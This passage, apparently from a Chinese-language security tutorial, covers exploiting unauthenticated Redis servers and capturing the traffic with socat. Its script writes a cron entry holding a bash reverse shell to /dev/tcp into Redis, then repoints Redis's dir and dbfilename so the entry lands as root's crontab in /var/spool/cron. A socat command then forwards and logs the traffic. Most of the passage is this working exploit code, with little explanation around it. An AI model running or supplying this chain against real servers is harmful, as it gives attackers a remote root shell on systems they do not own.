 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111224322.png-water_print](assets/1699411601-635574159874c1f612acbaa500c0ba61.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210111224322.png-water_print")

**通过 socat 抓流量**

脚本：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/ip/port 0 >&1\n\n"\|redis-cli -h $1 -p $2 -x set 1<br>redis-cli -h $1 -p $2 config set dir /var/spool/cron<br>redis-cli -h $1 -p $2 config set dbfilename root<br>redis-cli -h $1 -p $2 quit<br>``` |

执行：./shell.sh 127.0.0.1 4444

**流量转发**

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>socat -v tcp-listen:4444,fork tcp-connect:IP:6379<br>``` |
